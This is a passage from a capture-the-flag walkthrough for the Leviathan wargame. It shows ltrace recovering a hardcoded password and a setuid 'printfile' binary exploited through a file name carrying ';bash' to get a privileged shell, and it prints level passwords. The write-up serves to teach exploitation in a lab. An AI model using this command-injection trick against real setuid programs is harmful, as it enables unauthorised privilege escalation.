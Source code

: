 **Key**: `3QJ3TgzHDq`

### Level 1 → Level 2
**Objective**: Gain access to `leviathan2` by exploiting the `check` binary.

**Solution**:
- List the directory contents:
  ```bash
  ls
  ```
  A binary named `check` is present.
- Use `ltrace` to debug the binary and observe its behavior:
  ```bash
  ltrace ./check
  ```
  `ltrace` shows that the binary compares the input to a hardcoded password (`sex`).
- Run the binary with the correct password:
  ```bash
  ./check
  ```
  Input `sex` when prompted. This spawns a shell.
- In the shell, read the password for `leviathan2`:
  ```bash
  cat /etc/leviathan_pass/leviathan2
  ```

**Key**: `NsN1HwFoyN`

### Level 2 → Level 3
**Objective**: Exploit the `printfile` binary to gain access to `leviathan3`.

**Solution**:
- List the directory contents:
  ```bash
  ls -la
  ```
  A setuid binary named `printfile` is found, owned by `leviathan3` with permissions `-r-sr-x---`.
- Test the binary's functionality:
  ```bash
  ./printfile
  ```
  The binary reads and displays the contents of a file, but it runs with `leviathan3` privileges.
- Exploit the binary using command injection:
  - Create a temporary directory:
    ```bash
    mktemp -d
    ```
    This creates a directory, e.g., `/tmp/tmp.XXXXXX`.
  - Create a file with a malicious name to inject a command:
    ```bash
    touch '/tmp/tmp.XXXXXX/file;bash'
    ```
  - Run `printfile` with the crafted path:
    ```bash
    ./printfile '/tmp/tmp.XXXXXX/file;bash'
    ```
    The `;bash` part spawns a shell with `leviathan3` privileges.
- In the shell, read the password:
  ```bash
  cat /etc/leviathan_pass/leviathan3
  ```
